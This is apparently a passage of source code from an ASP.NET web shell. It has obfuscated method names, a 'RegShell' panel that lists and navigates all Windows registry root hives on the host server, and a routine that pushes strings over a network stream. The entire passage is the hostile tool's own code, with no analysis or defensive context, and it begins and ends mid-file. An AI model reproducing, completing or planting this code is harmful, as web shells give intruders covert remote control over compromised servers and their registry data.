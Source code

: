 }
protected void ZJiM(NetworkStream instream,string Sendstr)
{
if(instream.CanWrite)
{
byte[] uPZ=Encoding.Default.GetBytes(Sendstr);
instream.Write(uPZ,0,uPZ.Length);
}
Bin_Td_Res.InnerHtml+="&lt;font color=blue&gt;"+Sendstr+"&lt;/font&gt;";
}
public void xFhz()
{
WICxe();
kkHN.Visible=true;
Bin_H2_Title.InnerText="RegShell &gt;&gt;";
string txc=@"HKEY_LOCAL_MACHINE|HKEY_CLASSES_ROOT|HKEY_CURRENT_USER|HKEY_USERS|HKEY_CURRENT_CONFIG";
vyX.Text="";
foreach(string rootkey in txc.Split('|'))
{
vyX.Text+="&lt;a href=\"javascript:Bin_PostBack('Bin_Regread','"+MVVJ(rootkey)+"')\"&gt;"+rootkey+"&lt;/a&gt; | ";
}
lFAvw();
}
protected void lFAvw()
{
qPdI.Text="";
string txc=@"HKEY_LOCAL_MACHINE|HKEY_CLASSES_ROOT|HKEY_CURRENT_USER|HKEY_USERS|HKEY_CURRENT_CONFIG";
TableRow tr;
TableCell tc;
foreach(string rootkey in txc.Split('|'))
{
tr=new TableRow();
tc=new TableCell();
string bg=OKM();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
tc.Width=Unit.Parse("40%");
tc.Text="&lt;a href=\"javascript:Bin_PostBack('Bin_Regread','"+MVVJ(rootkey)+"')\"&gt;"+rootkey+"&lt;/a&gt;";
tr.Cells.Add(tc);
tc=new TableCell();
tc.Width=Unit.Parse("60%");
tc.Text="&lt;RootKey&gt;";
tr.Cells.Add(tc);
pLWD.Rows.Add(tr);
}
}
protected void tpRQ(string Reg_Path)
{
if(!Reg_Path.EndsWith("\\"))
{
Reg_Path=Reg_Path+"\\";
}
qPdI.Text=Reg_Path;
string cJG=Regex.Replace(Reg_Path,@"\\[^\\]+\\?$","");
cJG=Regex.Replace(cJG,@"\\+","\\");
TableRow tr=new TableRow();
TableCell tc=new TableCell();
string bg=OKM();
tr.Attributes["onmouseover"]="this.className='focus';";